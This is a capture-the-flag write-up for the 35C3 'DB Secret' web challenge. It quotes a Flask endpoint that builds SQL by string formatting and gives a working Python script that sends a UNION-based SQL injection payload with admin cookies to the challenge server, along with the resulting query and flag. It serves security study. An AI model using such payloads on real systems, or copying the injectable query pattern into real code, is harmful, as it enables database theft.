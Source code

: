 # DB Secret
Web

## Description:
> To enable secure microservices (or whatever, we don't know yet) over Wee in the future, we created a specific DB_SECRET, only known to us. This token is super important and extremely secret, hence the name. The only way an attacker could get hold of it is to serve good booze to the admins. Pretty sure it's otherwise well protected on our secure server.


## Solution:

This is a "Wee" challenge - see basic explanation [here](./Wee/).

Searching for this DB_SECRET, we find the following piece of code in the server:

```python
def init_db():
    with app.app_context():
        db = get_db()
        with open(MIGRATION_PATH, "r") as f:
            db.cursor().executescript(f.read())
        db.execute("CREATE TABLE `secrets`(`id` INTEGER PRIMARY KEY AUTOINCREMENT, `secret` varchar(255) NOT NULL)")
        db.execute("INSERT INTO secrets(secret) values(?)", (DB_SECRET,))
        db.commit()

```

It looks like we are looking for an SQL-injection vulnerability.

Scanning the code to search for such a vulnerability, we find:
```python
@app.route("/api/getprojectsadmin", methods=["POST"])
def getprojectsadmin():
    # ProjectsRequest request = ctx.bodyAsClass(ProjectsRequest.class);
    # ctx.json(paperbots.getProjectsAdmin(ctx.cookie("token"), request.sorting, request.dateOffset));
    name = request.cookies["name"]
    token = request.cookies["token"]
    user, username, email, usertype = user_by_token(token)

    json = request.get_json(force=True)
    offset = json["offset"]
    sorting = json["sorting"]

    if name != "admin":
        raise Exception("InvalidUserName")

    sortings = {
        "newest": "created DESC",
        "oldest": "created ASC",
        "lastmodified": "lastModified DESC"
    }
    sql_sorting = sortings[sorting]

    if not offset:
        offset = datetime.datetime.now()

    return jsonify_projects(query_db(
        "SELECT code, userName, title, public, type, lastModified, created, content FROM projects WHERE created < '{}' "
        "ORDER BY {} LIMIT 10".format(offset, sql_sorting), one=False), username, "admin")
```

Since we are already [logged in as admins](Logged_In.md), we can use this entry point and provide a specially crafted `offset` in order to perform the injection.

The code:
```python
import requests

cookie = {"name": "admin", "token": "vsfrhvlixgcakewqactbyotkdsrhjehq"}
r = requests.post('http://35.207.132.47/api/getprojectsadmin', json={"offset": "' union select secret, 1, 1, 1, 1, 1, 1, 1 from secrets limit 1 --", "sorting": "newest"}, cookies = cookie)
print(r.text)
```

This will produce the following query:
```sql
SELECT code, userName, title, public, type, lastModified, created, content 
FROM projects 
WHERE created < '' 
union select secret, 1, 1, 1, 1, 1, 1, 1 from secrets limit 1 --'ORDER BY {} LIMIT 10
```

The response:
```
[{"code":"35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???","content":1,"created":1,"lastModified":1,"public":1,"title":1,"type":1,"userName":1}]
```

The flag: 35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???